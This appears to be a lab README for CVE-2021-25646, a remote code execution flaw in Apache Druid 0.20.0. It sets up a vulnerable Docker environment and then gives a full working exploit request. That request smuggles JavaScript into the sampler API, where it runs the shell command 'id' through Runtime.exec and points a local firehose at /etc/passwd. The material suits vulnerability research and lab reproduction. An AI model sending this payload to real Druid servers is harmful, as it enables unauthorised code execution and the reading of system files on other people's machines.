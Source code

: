# Apache Druid Embedded Javascript Remote Code Execution (CVE-2021-25646)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Druid is an open source, distributed data store that is designed for ingesting high volumes of data to provide instant data visibility, ad-hoc analytics and queries with low latency and high concurrency.

Apache Druid includes the ability to execute user-provided JavaScript code embedded in various types of requests. This functionality is intended for use in high-trust environments, and is disabled by default. However, in Druid 0.20.0 and earlier, it is possible for an authenticated user to send a specially-crafted request that forces Druid to run user-provided JavaScript code for that request, regardless of server configuration. This can be leveraged to execute code on the target machine with the privileges of the Druid server process.

References:

- <https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution>
- <https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw>

## Vulnerable Environment

Execute following command to start an Apache Druid server 0.20.0:

```
docker-compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

Send this request to the server:

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

You will see the output of the `id` command:

![](1.png)
